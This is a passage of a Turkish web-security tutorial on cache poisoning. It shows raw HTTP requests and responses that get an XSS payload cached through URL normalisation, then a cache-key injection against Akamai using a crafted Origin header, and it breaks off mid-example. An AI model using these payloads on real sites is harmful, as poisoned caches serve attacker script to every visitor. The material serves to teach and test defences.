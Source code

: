 Öncelikle burp ile isteği URL encode olmadan sunucuya iletip önbelleğe bu şekilde alınmasını sağlayalım:

```bash
GET /?x="/><script>alert(1)</script> HTTP/1.1
Host: example.com
```

```bash
HTTP/1.1 200 OK
...
<a href="/?x="/><script>alert(1)</script>
```

Tamamdır, şimdi standart tarayıcılar üzerinden bu url ziyaret edildiğinde URL encode uygulansa bile önbellek mekanizması URL normalizasyonu ile her iki isteği de aynı görüp, önceden oluşturduğu önbellekten yanıtı dönecek.

```bash
GET /?x=%22/%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: example.com
```

```bash
HTTP/1.1 200 OK
X-Cache: HIT
...
<a href="/?x="/><script>alert(1)</script>
```

### Önbellek Anahtarı Enjeksiyonu - Akamai

Örneğin `Origin` başlığı gibi normalde standart kullanıcıların göndermeyeceği başlıklar üzerinden sömürü gerçekleştirmemiz gerekirse ? 

```bash
GET /?x=2 HTTP/1.1
Origin: '-alert(1)-'
```

```bash
HTTP/1.1 200 OK
X-True-Cache-Key: /D/000/example.com/ cid=x=2__Origin='-alert(1)-'

<script>…'-alert(1)-'…</script>
```

Normalde bu tür bir açığı sömürmek mümkün değildir, çünkü standart kullanıcıların tarayıcıları üzerinden `Origin: '-alert(1)-'` başlığı ile istek göndermesini sağlayamazsınız. Fakat Akamai tüm anahtar bileşenleri birbirinden ayıran `__` kaçış karakterlerini kaldırmadan önbellek anahtarına dahil ederse, aşağıdaki iki istek de aynı önbellek anahtarına sahip olabilir.

**İlk İstek:**

```bash
GET /?x=2 HTTP/1.1
Origin: '-alert(1)-'__
```
